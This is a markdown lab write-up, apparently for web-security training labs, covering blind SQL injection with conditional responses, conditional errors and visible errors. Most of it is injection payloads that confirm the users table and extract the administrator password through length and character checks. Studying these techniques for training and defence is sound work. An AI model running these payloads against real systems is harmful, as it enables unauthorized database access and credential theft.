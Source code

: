 # Labs - Blind SQL injection
- Author: [Mateusz Głuchowski](https://github.com/hue1337)


## Lab: Blind SQL injection with conditional responses

1. **Vulnerable parameter:** `category=`

2. **Application behaviour:**
    - *Welcome back* message.
    - Existing cookie and non-existing cookie in the database shows difference in application behaviour.

3. `True/false` confirmation:
    - *Welcome back* in `html`.  
    ```sql
     and 1=0-- - => False
     and 1=1-- - => True
    ``` 

4. Confirmation for *user* table existance:
    ``` sql
    and (select 'WH' from users limit 1) = 'WH'-- -
    ```

5. Confirmation for *administrator* user existance:
    ```sql
    and (select 'WH' from users where username='administrator') = 'WH'-- -
    ```

6. *Administrator* password enumeration:
    - Lenght of the password:
    ```sql
    and (select 'WH' from users where username='administrator' and length(password) > 1) = 'WH' -- -
    ```

    - Is the first charachter of the password \<char>
    ```sql
    and (select substring(password, 1, 1) from users where username='administrator') = 'a'-- -
    ```

## Lab: Blind SQL injection with conditional errors

1. Prove the parameter is vulnerable:
    ```sql
    ' || (select '' from dual) || '
    ```

2. Confirm that *users* table exists in the database
    ```sql
    ' || (select '' from users where rownum=1) ||' 
    ```

3. Confitm that *administrator* exists:
    ```sql
    ' || (select '' from users where username = 'administrator') || '
    ```

    ```sql
    ' || (select case when (1=0) then to_char(1/0) else '' end from dual) || '
    ```

    ```sql
    ' || (select case when (1=1) then to_char(1/0) else '' end from users where username = 'administrator') || '
    ```

4. Determine the length of the password:
    ```sql
    ' || (select case when (1=1) then to_char(1/0) else '' end from users where username = 'administrator' and length(password)>5) ||'
    ```

5. Determine the first letter:
    ```sql
    ' || (select case when (1=1) then to_char(1/0) else '' end from users where username = 'administrator' and substr(password, 1, 1)='a')||'
    ```

6. Prepare the script:
    

## Lab: Visible error-based SQL injection
-  Analysis:
    ```sql
    SQL SELECT * FROM tracking WHERE id = 'mOe4KUeoO3GZ2mGD''
    ```
    
    ```sql
     and cast((select 1) as int)-- -
     and 1=cast((select 1) as int)-- -
    ```
    
    ```sql
    and 1=CAST((select username from users) as int)-- - We ran out of chars. Remove tracking ID
    ```

    ```sql
    and 1=CAST((select username from users limit 1) as int)-- - We ran out of chars. Remove tracking ID
    ```

    ```sql
    and 1=CAST((select password from users limit 1) as int)-- -
    ```
